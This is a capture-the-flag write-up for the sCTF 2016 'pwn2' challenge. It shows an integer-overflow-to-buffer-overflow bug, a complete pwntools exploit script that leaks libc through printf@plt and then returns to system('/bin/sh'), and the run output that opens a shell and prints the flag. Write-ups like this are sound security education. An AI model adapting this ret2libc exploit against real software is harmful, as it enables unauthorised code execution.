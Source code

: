 ### Solved by superkojiman and Swappage

On to pwn2! When we connect to the service we're first prompted for the number of bytes we want to input. The maximum it will take is 32 bytes; anything greater will result is an error. After that, we're prompted for some input, and it basically reads in the number of bytes we specified earlier. 

The first vulnerability is an integer overflow. Entering a negative number results in tricking the binary into accepting a much larger value which will cause a buffer overflow:

```
# ./pwn2
How many bytes do you want me to read? -1
Ok, sounds good. Give me 4294967295 bytes of data!
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
You said: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation fault (core dumped)
```

Half the battle won! The binary has NX, and we assumed that ASLR was enabled on the server. We decided to leak printf()'s address in libc by returning to printf@plt and making it print its GOT entry. Once we had printf()'s address, we used [libc-database](https://github.com/niklasb/libc-database) to identify the libc version and obtain printf()'s offset. 

With the offset obtained, subtracting that from the leaked address gave us libc's base address. Using libc-database, we got the offsets for system() and "/bin/sh", which allowed us to get their addresses by adding them to libc's base address. Everything we needed to execute system("/bin/sh") was ready, so we just set printf() to return to vuln() so we could overwrite EIP all over again, and this time return to system(). Here's the exploit: 

```python
#!/usr/bin/env python

from pwn import *
#r = remote("localhost", 2323)
r = remote("problems2.2016q1.sctf.io", 1338)

buf = ""
buf += "A"*48
buf += p32(0x08048370)           # printf@plt
buf += p32(0x0804852f)           # return to vuln()
buf += p32(0x08048702)           # str: .... %s ....
buf += p32(0x0804a00c)           # ptr to printf@got

print "++++ STAGE 1 ++++"

# send size of bytes to read
print r.recv()
r.sendline("-1")
print r.recv()

# send first stage payload to leak libc addr
# returns to printf@plt to leak addr of printf@got and getchar@got
print "Sending stage 1 payload: leak libc"
r.sendline(buf)
r.recv()
d = r.recv()    # get leaked addresses

# leaked printf@got
addr_printf  = u32(d[:4])
print "addr_printf ", hex(addr_printf)

# used libc-database to identify libc version, and obtain printf()'s offset
# ubuntu-trusty-i386-libc6 (id libc6_2.19-0ubuntu6.6_i386)
offset_printf  = 0x0004d280

# libc base address
libc_base = addr_printf - offset_printf
print "libc_base", hex(libc_base)

# libc-database found these offsets for system() and "/bin/sh"
system_addr = libc_base + 0x00040190
bin_sh_addr = libc_base + 0x160a24

print "system_addr", hex(system_addr)
print "/bin/sh addr", hex(bin_sh_addr)

print ""
print "++++ STAGE 2 ++++"

# stage 2, overwrite EIP all over again, but this time we have system("/bin/sh") to return to
buf = ""
buf += "A"*48
buf += p32(system_addr)
buf += "XXXX"
buf += p32(bin_sh_addr)

r.sendline("-1")
print r.recv()

print "Sending stage 2 payload: system(\"/bin/sh\")"
r.sendline(buf)
print r.recv()

print "VulnHub FTW!"
r.interactive()
```

And finally, the exploit in action returning the flag: 

```
# ./sploit.py
[+] Opening connection to problems2.2016q1.sctf.io on port 1338: Done
++++ STAGE 1 ++++
How many bytes do you want me to read?
Ok, sounds good. Give me 4294967295 bytes of data!

Sending stage 1 payload: leak libc
addr_printf  0xb7610280
libc_base 0xb75c3000
system_addr 0xb7603190
/bin/sh addr 0xb7723a24

++++ STAGE 2 ++++
Ok, sounds good. Give me 4294967295 bytes of data!

Sending stage 2 payload: system("/bin/sh")
You said: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x901`\xb7XXXX$:r\xb7

VulnHub FTW!
[*] Switching to interactive mode
$ id
uid=1001(pwn2) gid=1001(pwn2) groups=1001(pwn2)
$ ls
flag.txt
pwn2
$ cat flag.txt
sctf{r0p_70_th3_f1n1sh}
```
